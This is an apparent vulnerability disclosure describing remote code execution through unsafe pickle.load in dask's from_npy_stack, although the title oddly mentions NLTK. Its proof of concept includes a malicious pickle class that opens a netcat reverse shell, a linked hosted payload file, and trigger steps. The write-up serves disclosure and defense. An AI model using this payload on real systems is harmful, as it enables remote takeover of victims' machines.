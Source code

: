 ```yaml
---
layout: post
title:  "Command injection via unsafe pickle.loads in dask.array.from_npy_stack in NLTK"
date:  2024-06-24 10:31:06 +0800
categories: command-injection
---
```


## Name

> Command injection via unsafe pickle.loads in dask.array.from_npy_stack

## Weakness

> CWE-94: Code Injection

## Severity

> High (8.8)

## Version

> 2024.6.2

## Description

The dask api [`dask.array.from_npy_stack`](https://docs.dask.org/en/stable/generated/dask.array.from_npy_stack.html#dask.array.from_npy_stack) is used to load dask array from stack of npy files. It loads dask arrays from a directory which contains a `info` file. The `info` file saves the information of the dask array. And `from_npy_stack` uses `pickle.load` method to load the `info` file which is a pickle file. If a victim loads a malicious `info` pickle file, command injection can be achieved.

The vulnerable function: [`dask.array.from_npy_stack#L5708`](https://github.com/dask/dask/blob/ff2488aec44d641696e0b7aa41ed9e995c710705/dask/array/core.py#L5708)

```
def from_npy_stack(dirname, mmap_mode="r"):
    """Load dask array from stack of npy files

    Parameters
    ----------
    dirname: string
        Directory of .npy files
    mmap_mode: (None or 'r')
        Read data in memory map mode

    See Also
    --------
    to_npy_stack
    """
    with open(os.path.join(dirname, "info"), "rb") as f:
        # vulnerable to command injection !!!!
        info = pickle.load(f)

    dtype = info["dtype"]
    chunks = info["chunks"]
    axis = info["axis"]

    name = "from-npy-stack-%s" % dirname
    keys = list(product([name], *[range(len(c)) for c in chunks]))
    values = [
        (np.load, os.path.join(dirname, "%d.npy" % i), mmap_mode)
        for i in range(len(chunks[axis]))
    ]
    dsk = dict(zip(keys, values))

    return Array(dsk, name, chunks, dtype)
```

## Proof of Concept

Firstly, create a malicious pickle file. Use following snippets to create a malicous `info` pickle file:

```
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)

with open('info', 'wb') as f:
    pickle.dump(RCE(), f)
```

I have uploaded the [`info`](https://raw.githubusercontent.com/sunriseXu/onnx/main/payload.pickle) to github for testing.


## Start attack

Install latest dask:

```
pip install dask
```

Create a malicious dask array directory.

```
example
    |__info
```

Use following snippets to trigger the unsafe `pickle.loads` command injection:

```
import dask.array as da
da.from_npy_stack('example')
```

After the command executed, we can check the `/tmp/f` file is created.

```
> ls -la /tmp/f
prw-r--r-- 1 kali kali 0 Jun 24 19:48 /tmp/f
```
## Colab

Tested on google colab: [https://colab.research.google.com/drive/1XaF82Sgt1nmY0hhSu0l_PBnFTQuCyNLq?usp=sharing](https://colab.research.google.com/drive/1XaF82Sgt1nmY0hhSu0l_PBnFTQuCyNLq?usp=sharing)

![image](http://live.staticflickr.com/65535/53822138335_9a3095507b_k.jpg)

## Impact

This vulnerability can have severe consequences. If victims load a malicious dask array folder using `dask.array.from_npy_stack`, command injection can be achieved on victims' mechine.


## Occurrences

[dask.array.from_npy_stack#L5708](https://github.com/dask/dask/blob/ff2488aec44d641696e0b7aa41ed9e995c710705/dask/array/core.py#L5708)

